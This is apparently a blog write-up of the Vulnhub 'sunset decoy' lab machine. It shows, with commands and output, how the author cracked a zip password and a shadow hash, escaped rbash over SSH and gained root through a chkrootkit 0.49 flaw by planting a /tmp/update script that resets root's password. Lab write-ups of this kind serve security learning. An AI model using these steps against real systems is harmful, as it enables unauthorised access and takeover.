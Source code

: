 ```yaml
---
title: Vulnhub - sunset decoy
description: My writeup on sunset decoy box.
categories:
 - vulnhub
tags: vulnhub rbash ssh chkrootkit john shadow
---
```


![](https://pbs.twimg.com/media/Dsh2wzTWkAEgsd0.jpg)

Hi all, just pwned this fresh new vulnhub box. A good one to relax after a hard day, let's pwn it!

You can find the machine there > [sunset decoy](https://www.vulnhub.com/entry/sunset-decoy,505/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.123
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-10 02:30 EEST
Nmap scan report for 60832e9f188106ec5bcc4eb7709ce592.zte.com.cn (192.168.1.123)
Host is up (0.00057s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9:b5:3e:3b:e3:74:e4:ff:b6:d5:9f:f1:81:e7:a4:4f (RSA)
|   256 ce:f3:b3:e7:0e:90:e2:64:ac:8d:87:0f:15:88:aa:5f (ECDSA)
|_  256 66:a9:80:91:f3:d8:4b:0a:69:b0:00:22:9f:3c:4c:5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
|_
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Index of /
MAC Address: 08:00:27:11:D0:A3 (Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Webpage has only a `save.zip` file let's download it.

```
$ wget -q http://$ip/save.zip
decoy unzip save.zip 
Archive:  save.zip
[save.zip] etc/passwd password: 
```

Needs a password, no problem. Let's fire up my favorite `fcrackzip`:

```
$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt save.zip 

PASSWORD FOUND!!!!: pw == manuel
$ decoy unzip -P manuel save.zip 
Archive:  save.zip
  inflating: etc/passwd              
  inflating: etc/shadow              
  inflating: etc/group               
  inflating: etc/sudoers             
  inflating: etc/hosts               
 extracting: etc/hostname 
```

## Cracking user password - Shell access

Seems like a copy of `/etc`, let's focus on `shadow` file since it contains user passwords in encrypted format. I saved the user password in a file and i'll run john on it.

```
$ cat password 
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.
$ john --wordlist=/usr/share/wordlists/rockyou.txt password
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
server           (296640a3b825115a47b68fc44501c828)
1g 0:00:00:06 DONE (2020-07-10 02:36) 0.1631g/s 2798p/s 2798c/s 2798C/s felton..Hunter
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Bingo! ;) Let's login in:

```
$ ssh 296640a3b825115a47b68fc44501c828@$ip
296640a3b825115a47b68fc44501c828@192.168.1.123's password: 
Linux 60832e9f188106ec5bcc4eb7709ce592 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul  9 19:03:50 2020 from 192.168.1.16
-rbash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cd
-rbash: cd: restricted
```

## rbash bypass 

Oh we're into `rbash`!

`rbash = restricted shell` Restricts some of the system capabilities like commands etc 

Here we can do a trick to bypass it with ssh:

```
$ ssh 296640a3b825115a47b68fc44501c828@$ip -t "bash --noprofile"
296640a3b825115a47b68fc44501c828@192.168.1.123's password: 
bash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ whoami
bash: whoami: command not found
```

All the commands now return `command not found`, we have to fix the `PATH`:

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo $PATH
PATH:/home/296640a3b825115a47b68fc44501c828/
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ PATH=/usr/lib/lightdm/lightdm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ whoami;id
296640a3b825115a47b68fc44501c828
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) groups=1000(296640a3b825115a47b68fc44501c828)
```

## user -> root - exploiting chkrootkit

Now privesc is simple, we can see this `SV-502` directory in home. If we follow it we can see a `log.txt` that provide a really useful information:

`2020/06/27 18:56:58 CMD: UID=0    PID=12386  | tar -xvzf chkrootkit-0.49.tar.gz`

System runs a vulnerable version of `chkrootkit`, let's search for possible exploits.

```
$ searchsploit chkrootkit
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit)                                                                                                   | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation                                                                                                           | linux/local/33899.txt
```

Let's read `linux/local/33899.txt`:

```
Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
```

`update` file under `/tmp` will be executed as root. We can simply change root password!

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ touch update; chmod +x update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ nano update 
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ cat update
#!/bin/bash
echo 'root:pwned' | sudo chpasswd
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ su - root
Password: 
root@60832e9f188106ec5bcc4eb7709ce592:~# whoami
root
```

Perfect! ;) Let's read the flag:

```
root@60832e9f188106ec5bcc4eb7709ce592:~# cat root.txt
  ........::::::::::::..           .......|...............::::::::........
     .:::::;;;;;;;;;;;:::::.... .     \   | ../....::::;;;;:::::.......
         .       ...........   / \\_   \  |  /     ......  .     ........./\
...:::../\\_  ......     ..._/'   \\\_  \###/   /\_    .../ \_.......   _//
.::::./   \\\ _   .../\    /'      \\\\#######//   \/\   //   \_   ....////
    _/      \\\\   _/ \\\ /  x       \\\\###////      \////     \__  _/////
  ./   x       \\\/     \/ x X           \//////                   \/////
 /     XxX     \\/         XxX X                                    ////   x
-----XxX-------------|-------XxX-----------*--------|---*-----|------------X--
       X        _X      *    X      **         **             x   **    *  X
      _X                    _X           x                *          x     X_


1c203242ab4b4509233ca210d50d2cc5

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
```

Fun box! :)
